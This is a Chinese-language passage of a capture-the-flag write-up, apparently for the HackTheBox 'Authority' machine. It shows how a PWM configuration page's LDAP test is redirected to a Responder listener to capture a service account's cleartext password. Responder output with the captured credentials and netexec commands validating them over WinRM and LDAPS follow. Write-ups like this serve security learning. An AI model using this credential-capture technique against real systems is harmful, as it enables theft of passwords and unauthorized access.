 # 04. 使用LDAP强制认证窃取密码

我们回到Web页面。点击 `Configuration Editor` 使用上一步拿到的密码成功登入配置页面。我们在配置页面中，找到一处可以发起 LDAP 认证的功能。我们在此处新建一个URL，地址为攻击机responder的地址。然后我们开启攻击机的responder，再点击网页上的Test LDAP Profile。就可以捕获到受害机向攻击机发起的LDAP认证数据。

注：此处LDAP使用389端口，是因为389端口是明文流量，认证信息会被明文传输。

![[Authority-HTTP-PWM.png]]

```bash
kali@kali[~]$ sudo responder -I tun0 -v
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

<省略...>

[+] Listening for events...

[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
```

可以看到我们成功通过 `responder` 捕获到了 `svc_ldap` 用户的密码。

```
username: svc_ldap
password: lDaP_1n_th3_cle4r!
```

使用该账户进一步枚举，发现该账户有WINRM服务的权限和LDAPS服务的权限

```bash
kali@kali[~]$ netexec winrm 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' 
WINRM       10.10.11.222    5985   AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb)
WINRM       10.10.11.222    5985   AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! (Pwn3d!)

kali@kali[~]$ netexec ldap 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' 
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.11.222    636    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
```
